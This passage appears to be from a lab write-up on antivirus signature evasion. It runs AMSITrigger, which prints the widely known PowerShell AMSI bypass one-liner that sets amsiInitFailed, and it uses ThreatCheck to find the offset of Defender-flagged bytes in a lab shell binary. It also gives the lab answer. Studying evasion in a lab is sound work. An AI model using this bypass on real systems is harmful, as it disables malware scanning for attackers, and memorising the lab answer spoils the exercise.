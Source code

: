 For our uses we only need to supply a file and the preferred format to report signatures.

```
PS C:\> .\amsitrigger.exe -i bypass.ps1 -f 3
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

In the next task we will discuss how you can use the information gathered from these tools to break signatures.

### Answer the questions below

* Using the knowledge gained throughout this task, identify bad bytes found in `C:\Users\Student\Desktop\Binaries\shell.exe` using ThreatCheck and the Defender engine. ThreatCheck may take up to 15 minutes to find the offset, in this case you can leave it running in the background, continue with the next task, and come back when it finishes.

* At what offset was the end of bad bytes for the file? 

    ```
    cd Desktop
    cd Tools
    ThreatCheck.exe -e Defender -f ..\Binaries\shell.exe
    ```

    ![task3-offset](./images/task3-offset.png)

    **Answer : 0xC544**
